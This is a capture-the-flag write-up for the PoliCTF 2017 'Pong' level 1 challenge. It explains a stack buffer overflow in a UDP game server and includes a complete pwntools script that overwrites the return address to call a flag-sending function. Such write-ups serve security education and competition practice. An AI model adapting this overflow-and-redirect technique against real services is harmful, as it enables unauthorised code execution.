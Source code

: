 ```yaml
---
layout: post
title:  "PoliCTF 2017 Pong(lvl 1)"
date:   2017-07-09 21:10
categories: CTF
tags: [PoliCTF2017]
categories: [Pwn]
author: jbz
---
```


> So much pixels and fun!

> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true)


There was a stack bof vulnerability in function `gameUpdateData()`.

The user input delivered to the UDP server was copied to a stack variable without checking its size. This lead to a memory corruption. 

The given binary contains a function called `secret` which open the file `flag` sending its content back to the socket.

To get that content from the client side we first sent the payload requested in order to trigger the  function `setupListener`, then we sent the payload to exploit the memory corruption. 

In order to get the flag sent from the server, we need to send the triggering payload before the connection is closed...but hey wait that's is UDP, it's connectionless! 

Moreover, there was enought time to trigger the corruption since the first payload triggers a function which sends back to the client a lot of data before to exit so, we just need to send the first payload (to trigger `setupListener`) followed immediately by the second one (to trigger mem corr), without waiting for any reply in-between.

```
from pwn import *

secret = 0x4045d1

def start_game():
#	p = remote('localhost', 31337)
	p = remote('pong2.chall.polictf.it', 31337)
	p.sendline("Lv1")
	p.recvuntil("OK ")
	s = p.recvline()
	c_port = int(s.strip())
	return c_port

def play_pong(port):
	print "connecting to pong UDP server at %d" % port
#	p = remote('localhost', port, typ="udp")
	p = remote('pong2.chall.polictf.it', port, typ="udp")
	return p

def send_to_pong(p, pay, stop=None): 
	p.sendline(pay)
	if stop:
		print p.recv()

port = start_game()
p = play_pong(port)

pay = "-1|" + "2" * 21
pay += p64(secret)
send_to_pong(p, pay, False)

pay = "1" + "|" + "2" * 22 
pay += p64(secret)
send_to_pong(p, pay, True)
```


